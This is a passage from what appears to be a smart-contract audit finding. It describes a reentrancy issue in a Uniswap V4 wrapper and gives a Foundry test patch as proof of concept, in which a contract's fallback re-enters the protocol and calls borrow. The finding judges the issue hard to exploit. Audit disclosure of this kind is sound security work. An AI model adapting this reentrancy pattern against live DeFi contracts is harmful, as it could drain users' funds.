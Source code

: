**Impact:** The likelihood of this issue is medium/high since Uniswap V4 has support for native ETH which is commonly used as collateral across DeFi protocols. The impact is more difficult to quantify as it does not appear possible to leverage this reentrancy to bypass the vault protections for an undercollateralized borrow, due to reverts in deferred checks after the ERC-6909 burn with `E_AccountLiquidity()`, or otherwise break the ERC-6909 accounting. Recursive partial unwraps also appear to be unprofitable for an attacker.

**Proof of Concept:** Apply the following patch and execute `forge test --mt test_reentrancyPoC -vvv`:

```diff
---
 .../test/uniswap/UniswapV4Wrapper.t.sol       | 95 ++++++++++++++++++-
 1 file changed, 94 insertions(+), 1 deletion(-)

diff --git a/vii-finance-smart-contracts/test/uniswap/UniswapV4Wrapper.t.sol b/vii-finance-smart-contracts/test/uniswap/UniswapV4Wrapper.t.sol
index 2fce3ed..d9eaf45 100644
--- a/vii-finance-smart-contracts/test/uniswap/UniswapV4Wrapper.t.sol
+++ b/vii-finance-smart-contracts/test/uniswap/UniswapV4Wrapper.t.sol
@@ -40,6 +40,46 @@ import {UniswapMintPositionHelper} from "src/uniswap/periphery/UniswapMintPositi
 import {ActionConstants} from "lib/v4-periphery/src/libraries/ActionConstants.sol";
 import {Math} from "lib/openzeppelin-contracts/contracts/utils/math/Math.sol";

+contract ReentrantBorrower {
+    bool entered;
+    ERC721WrapperBase wrapper;
+    uint256 tokenId;
+    IEVault eVault;
+    IEVC evc;
+
+    fallback() external payable {
+        if (!entered && address(wrapper) != address(0) && tokenId != 0 && address(eVault) != address(0)) {
+            console.log("reentrancy");
+            entered = true;
+
+            bool checksInProgress = evc.areChecksInProgress();
+            bool checksDeferred = evc.areChecksDeferred();
+            bool controlCollateralInProgress = evc.isControlCollateralInProgress();
+
+            assert(!checksInProgress);
+            assert(checksDeferred);
+            assert(!controlCollateralInProgress);
+
+            eVault.borrow(type(uint256).max, address(this));
+
+        }
+    }
+
+    function setEnabled(ERC721WrapperBase _wrapper, uint256 _tokenId, IEVault _eVault, IEVC _evc) external {
+        wrapper = _wrapper;
+        tokenId = _tokenId;
+        eVault = _eVault;
+        evc = _evc;
+    }
+}
+
 contract MockUniswapV4Wrapper is UniswapV4Wrapper {
     using StateLibrary for IPoolManager;

@@ -125,7 +165,7 @@ contract UniswapV4WrapperTest is Test, UniswapBaseTest {

     TestRouter public router;
```